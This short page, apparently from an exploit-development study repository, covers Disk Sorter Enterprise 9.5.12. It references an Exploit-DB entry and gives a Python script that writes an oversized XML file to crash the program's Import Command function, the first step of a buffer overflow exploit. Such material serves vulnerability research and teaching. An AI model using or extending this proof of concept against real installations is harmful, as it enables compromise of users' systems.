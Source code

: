 # DiskSorterEnterprise_9.5.12
Downloaded from: https://www.exploit-db.com/exploits/41771
Vulnerable function: Command -> Import Command

## Initial Crash
```py
import os,struct

CRASH_LEN = 5000  # change me

payload = "A" * CRASH_LEN

#FILE
file='<?xml version="1.0" encoding="UTF-8"?>\n<classify\nname=\'' + payload + '\n</classify>'

f = open('Exploit.xml', 'w')
f.write(file)
f.close()
```
